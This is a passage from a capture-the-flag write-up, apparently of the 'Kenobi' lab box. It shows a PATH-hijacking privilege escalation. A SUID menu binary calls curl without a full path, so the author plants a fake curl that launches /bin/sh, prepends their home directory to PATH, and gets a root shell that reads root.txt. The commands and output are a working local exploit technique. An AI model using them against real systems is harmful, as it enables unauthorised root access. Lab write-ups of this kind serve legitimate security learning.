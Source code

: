 ```
GLIBC_2.4
GLIBC_2.2.5
UH-`
AWAVA
AUATL
[]A\A]A^A_
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig

```
So it looks like strings is showing us what the actual commands that are being run are.
```
$ /usr/bin/menu 

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
HTTP/1.1 200 OK
Date: Sat, 22 Aug 2020 07:00:57 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Wed, 04 Sep 2019 09:07:20 GMT
ETag: "c8-591b6884b6ed2"
Accept-Ranges: bytes
Content-Length: 200
Vary: Accept-Encoding
Content-Type: text/html

```

```
kenobi@kenobi:~$ echo /bin/sh > curl
kenobi@kenobi:~$ chmod 777 curl
kenobi@kenobi:~$ export PATH=/home/kenobi:$PATH
kenobi@kenobi:~$ /usr/bin/menu 

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
# cd /root	
# ls
root.txt
# cat root.txt
<insert-root-flag-here>
# 
```
Following the instructions for the walkthrough, it took me a little while to understand this. I now have it in my head and hopefully will be able to use the same type of exploits elsewhere.
